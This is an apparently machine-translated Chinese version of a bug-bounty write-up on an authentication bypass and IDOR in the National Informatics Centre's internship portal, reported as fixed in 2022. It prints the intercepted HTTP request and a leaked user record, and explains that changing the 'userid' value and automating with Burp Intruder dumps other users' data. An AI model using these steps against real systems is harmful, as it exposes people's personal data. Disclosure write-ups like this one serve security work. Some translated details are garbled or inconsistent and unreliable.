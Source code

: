 # 国家信息中心的 API 认证旁路

> 原文：<https://infosecwriteups.com/api-authentication-bypass-on-national-informatics-centre-d438b3bae085?source=collection_archive---------2----------------------->

嘿黑客们！！！我的名字是克里希纳德夫·P·梅勒维拉。我是一名 20 岁的 web 应用渗透测试员。更多细节请在谷歌上搜索我的名字。

> ***漏洞:*** 绕过 API 认证
> 
> ***冲击:零点一天***
> 
> ***风险:*** 敏感数据泄露与 IDOR 连锁
> 
> ***优先级:P0***
> 
> ***范围:*** 教育详情、电话号码、加密密码、令牌、个人敏感详情

![](img/85f300f2fd8c60172f3515e1be096d28.png)

国家信息中心

首先我会告诉你我是怎么来的这个漏洞。

像往常一样，我在 Instagram 上冲浪，我通过的网站 **vidyakosh.nic .得知国家信息中心提供暑期实习机会。我不再等待，立即投入申请。但在填写完申请的所有阶段后，它给我显示了一条信息，即它只适用于三年级学生。因为我是 BTech 一年级的。学生，我没有资格申请。**

所以我变得悲伤，

但是，我从来没有决定后退，而是打开了我的黑客模式！！！

我是如何拿到这份报告的？

我看到 NIC Instagram 发布了暑期实习的消息。然后我赶紧跑去敷。但不幸的是，实习只针对三年级的 BTech。60 分的学生。我是一年级学生。所以我变得失望。但是我的激情唤醒了我，并开始测试这个网站，触及这个弱点。这是我在国家信息中心的第二个 bug。第一个是由 NIC 开发的喀拉拉邦民用物资网站 IDOR。

现在阅读技术报告！

从攻击者的角度再现的步骤

第一步:在填写申请表的第四步时，截取请求，你将得到如下请求。

```
POST /public/internship/userdetails HTTP/1.1 
Host: vidyakosh.nic.in Cookie: pop=1; laravel_cookie_consent=1; nic_lms_session=<REDACTED> XSRF-TOKEN=<REDACTED>
Content-Length: 56
Sec-Ch-Ua: “ Not A;Brand”;v=”99", “Chromium”;v=”99", “Google Chrome”;v=”99" 
Accept: application/json, text/javascript, */*; q=0.01 
Content-Type: application/x-www-form-urlencoded; charset=UTF-8 
X-Requested-With: XMLHttpRequest 
Sec-Ch-Ua-Mobile: ?0 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36 
Sec-Ch-Ua-Platform: “Windows” 
Origin: [https://vidyakosh.nic.in](https://vidyakosh.nic.in) 
Sec-Fetch-Site: same-origin 
Sec-Fetch-Mode: cors 
Sec-Fetch-Dest: empty 
Referer: [https://vidyakosh.nic.in/public/internship/internshipstep4](https://vidyakosh.nic.in/public/internship/internshipstep4) Accept-Encoding: gzip, deflate 
Accept-Language: en-US,en;q=0.9,ml;q=0.8,hi;q=0.7 
Connection: close userid=13&_token=<REDACTED>
```

在这里，您可以看到一个名为“userid”的参数，如果我们将其更改为除“13”以外的任何其他值，我们将获得其他用户的数据，如下所示。

```
{“message”:[{“id”:1,”fname”:”Manish”,”active”:0,”email”:”<REDACTED>”,”email_otp”:””,”mobile”:”<REDACTED>",”mobile_otp”:””,”arn_no “:””,”gender”:”1",”password”:”<REDACTED>",”created_on”:”2022–04–01 16:32:11",”updated_on”:”2022–04–01 13:40:38",”dob”:”0000–00–00",”father_name”:””,”mother_name”:””,”state_id”:0 ,”dist_id”:0,”adress1":””,”adress2":””,”pin”:0,”session”:””,”s_year”:””,”st atement_purpose”:””,”photo”:””,”sign”:””,”project”:””,”education_pattern”:” “,”institute_category”:0,”institute_name”:””,”institute_adress”:””,”institu e_telephone”:””,”institute_email”:””,”bank_ac_no”:””,”bank_name”:””,”ifsc_c ode”:””,”branch_name”:””,”test”:””,”deleted_at”:null,”remember_token”:”<REDACTED>”,”pursuing_year”:” “,”form_submit_value”:0}]}
```

使用任何自动化工具，如 burp 入侵者，我们可以获取完整的用户数据，包括用户名和密码。

> 报告日期:2022 年 4 月 3 日
> 
> 部分修复发布于:2022 年 3 月 4 日
> 
> 完整修复发布于:2022 年 4 月 4 日

参加我报告的高级软件工程师需要一个特别的大喊，因为他非常敬业。他一收到我的消息，就迅速行动，并在当天晚上发布了部分补丁。

所有人都在这里，

***别忘了在 medium 等社交媒体上关注我。也请为这篇文章鼓掌 50 次，这是我写更多的灵感！！***

**我需要你们的支持来写更多，请给我买杯咖啡吧 pls:**[**【https://www.buymeacoffee.com/krishnadevpm】**](https://www.buymeacoffee.com/krishnadevpm)

*我的 Instagram 手柄:*[*https://instagram.com/krishnadev_p_melevila*](https://instagram.com/krishnadev_p_melevila)

*我的推特句柄:*[*https://twitter.com/Krishnadev_P_M*](https://twitter.com/Krishnadev_P_M)

*我的 LinkedIn 手柄:*[【https://www.linkedin.com/in/krishnadevpmelevila/】T21](https://www.linkedin.com/in/krishnadevpmelevila/)

*我的人事网站:*[*http://krishnadevpmelevila.com/*](http://krishnadevpmelevila.com/)